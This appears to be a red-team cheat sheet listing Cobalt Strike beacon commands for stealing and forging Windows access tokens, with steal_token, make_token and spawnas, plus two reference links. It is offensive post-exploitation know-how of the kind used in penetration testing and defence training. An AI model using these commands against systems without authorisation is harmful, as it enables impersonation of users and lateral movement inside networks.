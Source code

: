 # Cobalt Strike

Steal Token

```
beacon> steal_token <pid>

beacon> getuid

beacon> getprivs

beacon> rev2self
```

Make Token

```
beacon> make_token <domain_name>\<username> <password>

beacon> getuid

beacon> getprivs

beacon> rev2self
```

SpawnAs

```
beacon> spawnas <domain_name>\<username> <password>

beacon> getuid
```

---
## References

- [Demystifying Cobalt Strike’s “make_token” Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)